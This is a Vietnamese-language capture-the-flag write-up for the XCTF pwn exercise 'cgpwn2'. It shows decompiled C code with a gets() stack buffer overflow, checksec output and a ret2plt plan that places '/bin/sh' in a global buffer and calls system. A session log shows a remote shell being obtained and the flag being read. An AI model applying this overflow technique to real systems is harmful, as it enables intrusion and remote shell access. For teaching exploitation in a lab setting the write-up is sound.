 XCTF - PWN Exercise - cgpwn2

```c
#include<stdio.h>
string name;

int pwn()
{
  return system("echo hehehe");
}

char *hello()
{
  __int16 *p_s; // eax
  char v1; // bl
  unsigned int v2; // ecx
  __int16 *v3; // eax
  __int16 s; // [esp+12h] [ebp-26h] BYREF
  int v6; // [esp+14h] [ebp-24h] BYREF

  p_s = &s;
  v1 = 30;
  if ( ((unsigned __int8)&s & 2) != 0 )
  {
    s = 0;
    p_s = (__int16 *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&p_s[v2 / 2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0x1Cu) );
  v3 = &p_s[v2 / 2];
  if ( (v1 & 2) != 0 )
    *v3 = 0;
    
  puts("please tell me your name");
  fgets(name, 50, stdin); 	// no cho phep luu /bin/sh vao roi goi lai de nhan shell voi bien toan cuc name 
  puts("hello,you can leave some message here:");
  return gets((char *)&s);	// tra ve dia chi bien toan cuc luu shell vao .bss roi goi dia chi
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  
  hello();
  
  puts("thank you");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2 λ checksec cgpwn2    
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2/cgpwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Đừng để ý vào đoạn đầu của code được decompile từ IDA vì mình cũng không hiểu nó viết gì :(. Cuối hàm `hello()` ta thấy chương trình nhập vào chuỗi biến toàn cục `name` tối đa 50 kí tự rồi sau đó nhập chuỗi vào `s` với offset so với return address là 0x26 + 0x4 = 0x2a bằng hàm `gets` và không có `Canary` => có thể dùng stack buffer overflow.

Ý tưởng là ta sẽ ghi đè địa chỉ trả về bằng địa chỉ plt của `system` trong hàm `pwn()` sau đó truyền đối số là chuỗi `"/bin/sh"` mà ta sẽ nhập vào ở biến toàn cục `name` trong lần nhập đầu tiên.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2 λ python2 exp.py
[+] Opening connection to 111.200.241.244 on port 58199: Done
[*] Switching to interactive mode
$ ls
bin
cgpwn2
dev
flag
lib
lib32
lib64
$ cat flag
cyberpeace{4a613cfb11a70856f8d649e3d9883daa}
$ 
```

